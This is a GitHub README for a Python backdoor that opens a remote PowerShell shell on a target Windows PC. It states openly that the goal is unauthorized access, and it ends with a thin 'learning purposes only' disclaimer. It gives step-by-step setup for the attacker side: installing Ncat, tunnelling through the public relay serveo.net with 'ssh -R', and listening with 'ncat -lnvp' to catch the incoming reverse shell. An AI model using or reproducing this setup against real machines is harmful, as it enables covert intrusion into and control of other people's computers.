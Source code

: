 # Python Backdoor for Windows On Public Networks

This project is a Python-based backdoor that is to be executed on target system, after executing, the Target PC connects to a remote server 'SERVEO' at a specific TCP port form which the connection is forwarded to Attacker system or YOUR PC, Thus succesfully establishing a connection between your PC and the target system and allowing unauthorized access. The connection contains a PowerShell command interface, allowing Attacker to execute PowerShell commands on the target system. 

- To get this to working a Tool must be installed on YOUR PC

## Netcat installation
  
  To be able to receive and interpret incoming backdoor as a PowerShell command line we should use 'Netcat'. Netcat, also known as Ncat, is a powerful networking tool used for reading and writing to network connections using TCP or UDP protocols.

  Netcat comes With a networking tool called 'Nmap':
  - Go to Nmap official site https://nmap.org/download.html#windows
  - Download nmap installer and run it.
  - ***CHECK Ncat at this window***
 ![nmap_setup](https://github.com/user-attachments/assets/1916f804-be3e-4a5e-a362-b9f4b95439ce)
  - Continue the installation with default settings after this.
 
 ## SSH Server setup (serveo)
  As mentioned already In order to receive connections from a public network we must have a public server capable of doing these things, for that 'serveo' is the best option.
  - you can visit 'https://serveo.net' for more knowledge
  
  ```powershell
  ssh -R 61732:localhost:5555 serveo.net
  ```
 ![ssh](https://github.com/user-attachments/assets/5308fea9-6efd-4d16-81d9-fc1b6b8d749f)
  - This command will connect port 5555 on our local machine to port 61732 , any TCP port between range (49152–65535) will work, change the port no if not available.
  - ***Make sure the port number here (in this case 61732) is same as the port number on python code***

 ### REMINDER: you should keep a terminal open running this ssh command in order for this to work
 ## Ncat usage
 After Successfull installation you should see like this when you run the command 'ncat' :
 ![ncat_test](https://github.com/user-attachments/assets/d752e99b-ec2e-4722-b81d-2bce64bfe825)


 ```powershell
 ncat -lnvp 5555 #the same local port that you specified in ssh command
 ```
   Execute the command to start listening for connections :
  ![conn_try](https://github.com/user-attachments/assets/1b144bb1-fdf1-4fa2-ac68-e4cb376c30ce)


 While the python command is running on the target device connection will be established now you can start exceuting commands:
 ![final](https://github.com/user-attachments/assets/ba7bc1af-675e-4697-a9a5-be3f7be5749f)

- ***If the connection is stuck or not responding just close the current terminal open new one and run the same command the python code try try to reconnect every 120sec of inactivity (the time delay can be modified from the code)***
- ***Remember do not leave the terminal inactive, the connection will be lost since the python code try to reconnect***

 For Learning purposes only.
 
 This might be a game changer for beginners.
 
 Try your best not to do anything ilegal :)
